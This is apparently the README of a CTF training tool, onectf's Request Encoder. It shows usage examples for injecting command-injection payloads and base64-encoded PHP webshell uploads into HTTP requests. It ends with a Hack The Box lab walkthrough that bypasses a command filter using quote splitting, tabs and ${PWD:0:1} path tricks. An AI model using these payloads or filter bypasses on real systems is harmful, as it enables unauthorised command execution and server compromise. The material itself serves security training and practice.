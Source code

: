 # Request Encoder

Request Encoder is a module that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

## Examples

The tool accept three kind of input formats injected into `-p`:

* `-i`: a string that is injected into
* `-w`: a wordlist (one string per line)
* `-I`: a file whose content will be inline using `\n`

```bash
$ onectf request -u 'URL' -v -X POST -p uid -w uids
```

By default, assuming the parameter is `-p param`, then the parameter will be injected into the URL (`GET`) or in the body (`POST/...`). Some websites are not using parameters, e.g., they send `body: xxx` instead of `body: param=xxx`.

* Use `--json` when there is no parameter and the payload is JSON
* Use `--raw` when there is no parameter

```bash
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```

For JSON request, you can process to some extend complex payloads:

```bash
$ onectf request -u 'URL' -v -X POST --json --pjson '{"name":"xxx", "file":"$_INJECT_$"}' -I webshell.php --tamper data_base64
$ onectf request  -u 'URL' -v -X POST --json --jsonp '{"id":"xxx", "body":"data:application/x-php;base64,$_INJECT_$"}' -I web_shell.php --tamper base64
```

Aliases are automatically enabled by default. You can use:

* `<q>` instead of `'` (quote)
* `<er>` instead of `2>&1` (error redirection)
* `<tab>` for a tabulation character
* `<m>` instead of `-` (minus)
* `<crlf>` instead of `%0D%0A` (`\r\n`)
* `<lf>` instead of `%0A` (`\n`)

```bash
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -p param -i 'echo <q>Hello<q>'
$ onectf request -u 'URL' -v -X POST -p param -i 'xxx<lf>whoami'
```

You can select with tamper script to apply:

```bash
$ onectf request -u 'URL' -v -X POST -p param --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
$ onectf request -u 'URL' -v -X POST -p param -i '{"xxx":{}}' --tamper url
```

While fuzzing is not the primary purpose:

```bash
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
```

You can use `-f` to select a specific output format:

```bash
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' -f raw
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
```

## Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```